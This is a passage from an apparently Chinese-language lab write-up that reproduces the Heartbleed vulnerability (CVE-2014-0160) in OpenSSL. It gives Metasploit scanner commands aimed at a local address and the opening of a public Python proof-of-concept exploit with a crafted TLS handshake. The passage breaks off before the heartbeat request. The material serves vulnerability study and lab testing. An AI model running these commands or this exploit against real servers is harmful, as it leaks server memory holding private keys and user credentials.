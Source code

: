 OpenSSL 1.0.1 - OpenSSL 1.0.1f

### 3.3 漏洞复现



使用msf检测是否存在Heartbleed漏洞

```
use auxiliary/scanner/ssl/openssl_heartbleed
set rhosts 192.168.0.104
set rport 8443
exploit
```

![image-20221010183630580](../../images//image-20221010183630580.png)

```
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code
# Minor customizations by Malik Mesellem (@MME_IT)

import sys
import struct
import socket
import time
import select
import re
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=8443, help='TCP port to test (default: 8443)')

def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')

hello = h2bin('''
16 03 02 00  dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
```